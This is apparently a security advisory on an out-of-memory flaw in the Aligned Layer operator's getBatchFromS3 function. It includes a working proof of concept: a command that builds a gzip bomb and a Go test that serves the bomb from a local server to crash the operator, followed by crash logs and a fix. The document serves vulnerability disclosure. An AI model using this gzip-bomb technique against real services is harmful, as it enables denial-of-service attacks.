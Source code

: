 # Operator is vulnerable to OOM due to getBatchFromS3

**Author(s):** Mohammed Benhelli [@Fuzzinglabs](https://github.com/FuzzingLabs/)

**Date:** 01/08/2024

### **Executive summary**

During the process of auditing the code and developing fuzzing harnesses, we found that the `getBatchFromS3` method of 
`Operator` is vulnerable to an OOM attack via a crafted gzip file for example.

### Vulnerability Details

- **Severity:** High
- **Affected Component:** `operator/pkg/s3.go`

## Environment

- **Distro Version:** Ubuntu 22.04.4 LTS
- **Additional Environment Details:** go version go1.22.5 linux/amd64

## Steps to Reproduce

To demonstrate the issue, we provide a Proof of Concept (POC) to show that the bug can be triggered in the `operator`
package.

1. Create a gzip file in your test folder, here `aligned_layer/fuzzinglabs/operator`:
   ```sh
    dd if=/dev/zero bs=1M count=50240 | gzip > 50G.gzip
   ```
2. Create a file in your test folder with the following content:
   ```go
   package operator_test
   
   import (
      "github.com/Layr-Labs/eigensdk-go/logging"
      "github.com/ethereum/go-ethereum/common"
      servicemanager "github.com/yetanotherco/aligned_layer/contracts/bindings/AlignedLayerServiceManager"
      "github.com/yetanotherco/aligned_layer/core/config"
      operator "github.com/yetanotherco/aligned_layer/operator/pkg"
      "net/http"
      "os"
      "runtime"
      "testing"
   )
   
   // 1GB
   const LimitRamUsage = 1024 * 1024 * 1024
   
   // 256MB
   const LimitBatchSize = 256 * 1024 * 1024
   
   func TestGetBatchS3OOM(t *testing.T) {
      go startTestServerOOM(t)
      defer runtime.GOMAXPROCS(runtime.GOMAXPROCS(1))
      var start, end runtime.MemStats
      runtime.GC()
      runtime.ReadMemStats(&start)
      processGzipBomb(t)
      runtime.ReadMemStats(&end)
      alloc := end.TotalAlloc - start.TotalAlloc
      if alloc > LimitRamUsage {
         t.Fatalf("Memory usage exceeded limit: %d", alloc)
      }
   }
   
   func processGzipBomb(t *testing.T) {
      logger, err := config.NewLogger(logging.Production)
      if err != nil {
         t.Fatalf("Error creating logger: %v", err)
      }
      op := operator.Operator{
         Logger: logger,
         Config: config.OperatorConfig{
            Operator: struct {
               AggregatorServerIpPortAddress string
               Address                       common.Address
               EarningsReceiverAddress       common.Address
               DelegationApproverAddress     common.Address
               StakerOptOutWindowBlocks      int
               MetadataUrl                   string
               RegisterOperatorOnStartup     bool
               EnableMetrics                 bool
               MetricsIpPortAddress          string
               MaxBatchSize                  int64
            }{MaxBatchSize: LimitBatchSize},
         },
      }
      newBatchLog := &servicemanager.ContractAlignedLayerServiceManagerNewBatch{
         BatchMerkleRoot:  [32]byte([]byte("[\t\t\t\t\t\t\t\t\t\t\t\t\\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t\t]")),
         BatchDataPointer: "http://localhost:8080",
      }
      if err := op.ProcessNewBatchLog(newBatchLog); err != nil {
         t.Logf("Error processing new batch log: %v", err)
      }
   }
   
   func startTestServerOOM(t *testing.T) {
      http.HandleFunc("/", handleRequestOOM)
      t.Fatal(http.ListenAndServe(":8080", nil))
   }
   
   func handleRequestOOM(w http.ResponseWriter, r *http.Request) {
      switch r.Method {
      case http.MethodHead:
      case http.MethodGet:
         content, err := os.ReadFile("50G.gzip")
         if err != nil {
            http.Error(w, "File not found", http.StatusNotFound)
            return
         }
         w.Header().Set("Content-Encoding", "gzip")
         if _, err := w.Write(content); err != nil {
            return
         }
      default:
         http.Error(w, "Method not allowed", http.StatusMethodNotAllowed)
      }
   }
   ```
3. Run the test:
   ```sh
   go test github.com/yetanotherco/aligned_layer/fuzzinglabs/operator
   ```
4. Read the exit status of the test.
   ```shell
   dmesg
   ```

## Root Cause Analysis

The root cause is located in `operator/pkg/s3.go`.

```go
package operator
...
func (o *Operator) getBatchFromS3(batchURL string, expectedMerkleRoot [32]byte) ([]VerificationData, error) {
   ...
   batchBytes, err := io.ReadAll(resp.Body)
   ...
}
```

`io.ReadAll` reads from the `resp.Body` until an EOF is encountered. If the `resp.Body` is a gzip file, it will be
decompressed in memory, which can lead to an OOM attack.

## Detailed Behavior

### Test output

```sh
=== RUN   TestGetBatchS3OOM
{"level":"info","ts":1722602535.7498837,"caller":"pkg/operator.go:177","msg":"Received new batch with proofs to verify","batch merkle root":[91,9,9,9,9,9,9,9,9,9,9,9,9,92,116,9,9,9,9,9,9,9,9,9,9,9,9,9,9,9,9,9]}
{"level":"info","ts":1722602535.7516584,"caller":"pkg/s3.go:13","msg":"Getting batch from S3..., batchURL: http://localhost:8080"}


Process finished with the exit code 1
```

### Dmesg output

```sh
...
[37076.492062] oom-kill:constraint=CONSTRAINT_NONE,nodemask=(null),cpuset=/,mems_allowed=0,global_oom,task_memcg=/,task=___9TestGetBatc,pid=1999192,uid=1000
[37076.492126] Out of memory: Killed process 1999192 (___9TestGetBatc) total-vm:23834908kB, anon-rss:14799024kB, file-rss:0kB, shmem-rss:0kB, UID:1000 pgtables:36904kB oom_score_adj:0
```

## Recommendations

- Using `io.LimitReader` to limit the amount of data read from the response body.